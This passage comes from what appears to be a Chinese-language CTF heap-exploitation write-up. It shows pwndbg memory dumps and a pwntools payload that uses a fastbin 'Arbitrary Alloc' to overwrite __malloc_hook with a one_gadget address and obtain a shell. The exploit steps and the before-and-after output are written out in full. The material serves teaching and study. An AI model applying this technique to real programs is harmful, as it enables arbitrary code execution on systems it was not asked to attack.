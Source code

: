 ```c
0x5fcead98730:  0x0000000000000001  0x0000000000000010
                #index0
0x5fcead98740:  0x0000555555757010  0x0000000000000001
                                    #index1
0x5fcead98750:  0x0000000000000010  0x0000555555757050    
0x5fcead98760:  0x0000000000000001  0x0000000000000010
                #index2     
0x5fcead98770:  0x0000555555757090  0x0000000000000001
                                    #index3
0x5fcead98780:  0x0000000000000010  0x0000555555757070
0x5fcead98790:  0x0000000000000001  0x0000000000000060
                #index4（此处发生了改变）#（此处发生了改变）     
0x5fcead987a0:  0x0000555555757090  0x0000000000000001
                #（此处发生了改变）     #index6（原index5）
0x5fcead987b0:  0x0000000000000080  0x0000555555757120
0x5fcead987c0:	0x0000000000000001	0x0000000000000060
    			#index7
0x5fcead987d0:	0x00007ffff7dd1afd	0x0000000000000000
pwndbg> 
```

> **<font style="color:#000000;">这里用到了fastbin_attack中的Arbitrary Alloc，具体细节请参考上一节。</font>**
>

### 2-5、写入one_gadget并getshell
```c
#然后往malloc_hook上写one_gadget的地址
payload = p8(0)*3
payload += p64(0)*2
payload += p64(libc_base+0x4527a)
fill(6, payload)
gdb.attach(p)
```

```c
执行payload前：
pwndbg> x/16gx 0x00007ffff7dd1aed
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92ea0000000	0xfff7a92a7000007f
    			#chunk_data
0x7ffff7dd1b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b4d <main_arena+45>:	0x2ea0000000000000	0x0000000000fff7a9
0x7ffff7dd1b5d <main_arena+61>:	0x0000000000000000	0x0000000000000000
pwndbg> 
-------------------------------------------------------------------------------
执行payload后：
pwndbg> x/16gx 0x00007ffff7dd1aed
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b0d <__realloc_hook+5>:	0xfff7a5227a000000	0x000000000000007f
    								#one_gadget
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b4d <main_arena+45>:	0x2ea0000000000000	0x0000000000fff7a9
0x7ffff7dd1b5d <main_arena+61>:	0x0000000000000000	0x0000000000000000
pwndbg> 
```
